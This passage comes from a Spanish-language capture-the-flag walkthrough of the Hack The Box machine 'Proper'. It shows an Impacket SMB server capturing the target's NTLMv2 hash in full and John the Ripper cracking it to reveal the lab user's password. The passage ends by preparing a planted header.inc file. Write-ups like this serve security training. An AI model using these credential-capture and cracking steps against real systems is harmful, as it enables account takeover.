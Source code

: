 ```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/Proper$ sudo smbserver.py smbFolder $(pwd) -smb2support
[sudo] password for gu3ro: 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
^[[A[*] Incoming connection (10.10.10.231,58265)
[*] AUTHENTICATE_MESSAGE (PROPER\web,PROPER)
[*] User PROPER\web authenticated successfully
[*] web::PROPER:aaaaaaaaaaaaaaaa:6363534449490d3d3ce56acf25ea4b8a:010100000000000080d0dca2ce7bd901c59d8f2e83f2d81600000000010010006e004100660078004500620062004700030010006e0041006600780045006200620047000200100073004600480061004e004b005a0067000400100073004600480061004e004b005a0067000700080080d0dca2ce7bd901060004000200000008003000300000000000000000000000002000002036b9e2aa3f6fb51ba2b9109bc1eec6e3b50da4043258b36e7947aa788c6a4e0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e00310039000000000000000000
[*] Closing down connection (10.10.10.231,58265)
[*] Remaining connections []
```
Crackeamos la contraseña y obtenemos la contraseña del usuario web.

```shell
gu3ro@parrot:/home/gu3ro/Desktop/guero/htb/Proper$ john -w=/usr/share/SecLists/rockyou.txt hash             
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
charlotte123!    (web)
1g 0:00:00:00 DONE (2023-04-30 19:46) 2.325g/s 2307Kp/s 2307Kc/s 2307KC/s chibigirl..cesjobo
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```
Antes nos habían pedido que se compartiera una archivo header.inc por lo que podemos crear un archivo con este nombre y podemos ver que pasa.

![imagen9](/assets/images/Proper/proper9.png)
